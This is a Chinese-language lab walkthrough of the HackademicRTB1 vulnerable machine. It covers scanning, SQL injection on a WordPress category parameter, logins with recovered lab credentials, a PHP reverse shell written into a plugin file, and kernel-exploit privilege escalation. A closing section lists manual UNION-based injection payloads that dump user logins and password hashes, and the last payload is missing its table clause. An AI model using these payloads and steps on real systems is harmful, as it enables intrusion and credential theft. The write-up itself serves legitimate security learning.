# HackademicRTB1（√）

## nmap扫描 

```
PORT   STATE  SERVICE VERSION
22/tcp closed ssh
80/tcp open   http    Apache httpd 2.2.15 ((Fedora))
```

## 目录扫描  

初次扫描http://192.168.25.116/没什么结果，但是我在源码界面又发现wp-content，我就扫描http://192.168.25.116/Hackademic_RTB1/，终于出结果了  
  


## web渗透  

  
注意p参数，尝试注入，没有结果，然后查看源代码乱点  
  
然后发现cat参数有注入，由于手工注入忘记了，先用sqlmap，手工exp看完视频再补  
  
sqlmap跑完之后，大概是这些信息，可以尝试wp登录  
  
现在访问wp-admin之后尝试账户密码登录，但是我又遇到个问题，就是这个sqlmap跑出来的账户有nicename，nickname等杂七杂八的name，所以我可以用wp-scan尝试扫描，当然最后也可能会用wp-scan扫描漏洞  
  
  
之前查看源码的时候就已经发现了版本，发现这些漏洞，同时wpscan验证了这些漏洞，然后wpscan扫描出用户NickJames，尝试之前发现的密码admin，登录成功  
  

## 获得初始shell  

在nickjames登录之后我一直找不到写php的地方，然后看了一丢丢wp，发现其wp-admin页面和我的不一样，那么现在我意识到nickjames用户权限不高，所以wpscan扫出来的用户也不一定准确，于是我根据nickjames所在那一列的账户名称用其他账户名登录，GeorgeMiller：q1w2e3  
  
我就说明明wordpress可以写php，为什么找不到，然后在这里写上反弹shell  
  
虽然hello.php可以写，但是我最后是在markdown.php下写shell，成功反弹，在这之前我去plugins界面激活了这个插件，不知道这个是否有影响，最后成功反弹  
  

## 提权  

这个内核版本还是很低，可以尝试内核漏洞提权，但是还是最后考虑  
suid发现了at和crontab，sh无法使用sudo，bash可以使用sudo，但是由于是apache账户，所以没有密码，正如之前所说不能sudo，suid就不考虑  
  
然后我看到了这个账户，大概率是需要切换到这个账户进行提权  
  
找了很久没找到其他提权方式，于是我尝试内核漏洞提权，试了几个exp，都失败了，然后我看见这是一个redhat linux，于是可以尝试更准确的exp  
  
虽然但是我也不知道为什么，找了一堆exp，最后是15285.c这个exp提权成功  
  
  

## 总结 

打了大概30台靶机之后的总结，首先这次凭借自己的盲打发现了sql注入，并且进入了wp后台，但是由于过于相信wpscan的结果，导致在一个低权限用户里没发现下一个入口（第一个错误），提权的话也是试了一大堆exp，最后我都不知道为什么刚好这个就行了（第二个错误），明明2.6.36和2.6.31也不一样阿！！！  
虽然还是没能直接盲打成功，但相比以前还是有所进步  

## 知识拓展  

### sql手工注入  

我们从之前的截图看到cat_ID=1而不是='1'所以这是一个整形注入  
在看了up的视频之后，对sql注入又有一个新的理解，记忆中对于sql语句就是对于information_schema的操作，并没有解释很清楚，所以记不住，而sql注入无非就是对于sql语句的拼接，逻辑的思考。  
```
?cat=1 order by 1 -- 从之前的截图可以看到是wp_categories表的查询，所以我们判断字段
?cat=1 order by 6 -- 报错，证明这张表的字段是5
?cat=1 union select 1,2,3,4,5 -- 用union查询接下来的结果,那我们需要让union前面的语句逻辑为假，cat=0让他查询不存在的字段，或者直接and 1=2等等
?cat=0 union select 1,2,3,4,5 --屏幕上显示“Archive for the "2" Category”那么说明第二列有数据
?cat=0 union select 1,database(),3,4,5 -- 这样可以查看到数据库，由于这本来是wordpress cms，所以数据库为wordpress也不奇怪，那么我们要看到表里的字段等其他内容我们用google搜索wordpress database description 去寻找相关数据，然后我们看到有用的表是wp_users,有用的字段是user_login,user_pass,user_level等
?cat=0 union select 1,user_login,3,4,5 from wp_users -- 因为前面逻辑为假，不执行前面的语句，那么后面的语句就是很正常的sql语句“select [columns] from [tables]”，这样查询显示的结果不全
?cat=0 union select 1,group_concat(user_login,0x2d,user_pass,0x2d,user_level) -- 这样我们得到的数据就是一组，0x2d是分隔符“-”，我们可以在linux终端输入ascii查看这些符号对应的十六进制
```
